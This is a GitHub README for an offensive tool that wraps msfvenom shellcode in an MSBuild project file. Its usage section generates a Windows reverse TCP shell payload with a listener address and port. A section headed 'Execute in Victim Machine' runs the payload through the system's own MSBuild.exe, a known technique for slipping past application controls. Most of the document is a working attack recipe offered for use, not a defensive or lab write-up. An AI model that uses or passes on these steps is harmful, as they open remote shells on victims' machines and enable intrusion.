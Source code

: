 # MSBuild ShellCode Runner

**Credits:**
Thanks to [ired.team](https://www.ired.team/) for publishing an article using msbuild to run C#. I just made this to automate the process of shellcode creation from `msfvenom`

[https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

## Installation
Install the metasploit framework first before using this

```bash
git clone https://github.com/jmrcsnchz/msbuild-shellcode.git
```
```bash
pip3 install argparse
```
```bash
cd msbuild-shellcode
```
```bash
python3 build.py -h

usage: build.py [-h] -x PAYLOAD -l LHOST -p LPORT [-a ARCH]
build.py: error: the following arguments are required: -x/--payload, -l/--lhost, -p/--lport
```

## Usage



```bash
python3 build.py -a x86 -x windows/shell_reverse_tcp -l 130.205.34.70 -p 4444
```
![](https://i.ibb.co/mS9zJFJ/Untitled.png)
## Execute in Victim Machine
```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\random\path\bad.xml
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.
